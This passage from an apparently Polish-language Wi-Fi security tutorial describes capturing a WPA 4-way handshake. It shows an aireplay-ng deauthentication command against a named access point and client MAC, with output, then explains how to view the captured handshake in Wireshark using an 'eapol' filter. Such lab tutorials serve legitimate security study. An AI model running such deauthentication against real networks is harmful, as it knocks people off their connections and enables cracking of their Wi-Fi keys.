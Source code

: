 
7. W tej sytuacji można spróbować wykonać deautentykację klienta przy pomocy następującego polecenia:

    ```console
    root@debian:~# aireplay-ng -0 1 -a 5C:4C:A9:6B:EC:CD -c BC:CF:CC:FD:82:D3 mon0
    22:04:50 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
    22:04:50 Sending 64 directed DeAuth. STMAC: [BC:CF:CC:FD:82:D3] [ 5|65 ACKs]
    ```

    Doprowadzi to do przechwycenia handshake. Opcją -a podaję MAC AP, a opcją -c MAC klienta, którego chcę odłączyć od sieci.

    ![](../../../.gitbook/assets/61eebf87-4772-4120-a9b3-62bc85b6d66e/2abcebb0.png)


8. Przechwycone 4-way handshake można podejrzeć, np. przy pomocy wiresharka, otwierając w nim plik wpa-test-01.cap, utworzony w katalogu, w którym uruchomiłem wcześniej airodump-ng. Wpisując w górne okienko filtrowania frazę „eapol", uzyskuję wynik prezentujący poszczególne etapy handshake (zrzut poniżej).
